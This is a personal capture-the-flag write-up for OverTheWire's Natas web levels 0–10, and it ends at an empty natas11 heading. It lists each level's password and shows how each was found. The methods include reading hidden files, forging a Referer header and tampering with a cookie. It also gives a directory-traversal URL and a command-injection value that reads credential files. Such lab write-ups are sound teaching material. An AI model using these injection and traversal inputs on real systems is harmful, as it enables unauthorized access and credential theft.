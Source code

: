 # Natas Challenges

### Natas0

Password is in the source code

```
gtVrDuiDfck831PqWsLEZy5gyDz1clto 
```
### natas1
Source Code of the screen again
```
ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi 
```

### natas2
source code has a image. Going to the images directory is has another file with the password. Users.txt
```
sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```

### natas3
This was found in the source code. This references robots.txt
```html
<!-- No more information leaks!! Not even Google will find it this time... -->
```
There is a hidden directory found in robots.txt
```html
User-agent: *
Disallow: /s3cr3t/
```
In this directory there is a uses.txt with the next password
```
Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```
### natas4
```html
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```
This is referencing the referer field in the request. Refreshing the page will populate the needed field.

Changing the request to the following will get you the password.

![image-20200910191407067](natas4.png)

```
Referer: http://natas5.natas.labs.overthewire.org/
```
```
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

### natas5 

You are greeted with the following prompt.

```
Access disallowed. You are not logged in
```

What is associated with logging in? COOKIES

Changing the loggedin cookies cookie from 0 to 1 fixes this.

![image-20200910191441513](natas5.png)

Refreshing this page after this will reveal the password.

```
aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

### natas6

A prompt for a secret appears.

We can try some stuff but nah.

Let look at the source code.

```php

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

The php script calls for the file secrets.inc in includes directory.

The page appears blank but looking at the source code will reveal the password for the first screen.

![image-20200910191510471](natas6.png)

```
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

### natas7

A page with 2 options.

Home and About

Clicking one adds `?page=home` and `?page=about` to the url. I smell Local File Inclusion.

```
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../etc/natas_webpass/natas8
```

The `../` allows us to move up a directory. Lets just do it a lot to make sure we get to the top. The natas challenge web page stats we can always find the password file under `/etc/natas_webpass/` and the next level name.

![image-20200910193416105](natas7.png)

```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 
```

### natas8

Another Secret Page. Oh Dear. Lets take a look at the source code.

```php
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

Alright so we have a secret and we have how it got there. Lets reverse engineer. For the sake of easiness (and the fact that I am using a windows OS), lets use cyberchef to get the secret.

The order to get is base64 > Reverse String > bin2hex so we have to do it backwards. From Hex > Reverse the order > Decode base64.

![image-20200910194548812](natas8.png)

the final code is `oubWYf2kBq` which reveals the password.

```
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

### natas9

Another secret.

Lets take a look at the source code.

```php+HTML
Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```

I might be able to inject a command into `grep -i $key dictionary.txt` . With the entry `whoami; cat /etc/natas_webpass/natas10 ; ` so that it looks like `grep -i whoami; cat /etc/natas_webpass/natas10; dictionary.txt`

Boom.

![image-20200910200842416](natas10.png)

```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

### natas10

```
For security reasons, we now filter on certain characters
```

Hoa boi.... ( Had to look this one up)

You inject another file for the grep command to lookup. Lets do `/etc/natas_webpass/natas11` cause thats the goal I guess.

![image-20200910202050243](natas11.png)

```
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

### natas11

